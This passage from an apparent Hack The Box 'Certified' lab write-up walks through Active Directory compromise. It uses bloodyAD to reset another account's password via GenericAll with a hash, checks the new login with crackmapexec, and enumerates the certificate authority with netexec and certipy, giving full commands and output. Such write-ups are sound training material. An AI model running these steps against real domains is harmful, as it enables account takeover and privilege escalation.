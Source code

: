 Having `GenericAll` on that object means we have complete control over it, so we can change this account's password and take control of it (even not recommended in a real life engagement).

For that we will use `BloodyAD` to do that!

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ bloodyAD -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 --host 10.10.11.41 set password ca_operator 'S3cur3P@ssw0rd!'

[+] Password changed successfully!
```

And i've done it right

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ sudo crackmapexec smb 10.10.11.41 -d certtified.htb -u ca_operator -p S3cur3P@ssw0rd!

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certtified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certtified.htb\ca_operator:S3cur3P@ssw0rd! 
```

Now i used `Bloodhound` and tried to see if there are any interesting edges for this user but unfortunately without any results.

As the name of the account, i thought maybe this is a Certificate Authority, and `netexec` is always handy to me when it comes to identifying `ADCS`.

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ sudo netexec ldap 10.10.11.41 -d certtified.htb -u ca_operator -p S3cur3P@ssw0rd! -M adcs

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certtified.htb\ca_operator:S3cur3P@ssw0rd! 
ADCS        10.10.11.41     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.41     389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.10.11.41     389    DC01             Found CN: certified-DC01-CA
```

Now i will use `certipy-ad` to gather information about Certificate Authority.

```bash
┌──(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad find -u ca_operator -p S3cur3P@ssw0rd! -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250316160850_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316160850_Certipy.txt'
[*] Saved JSON output to '20250316160850_Certipy.json'
```
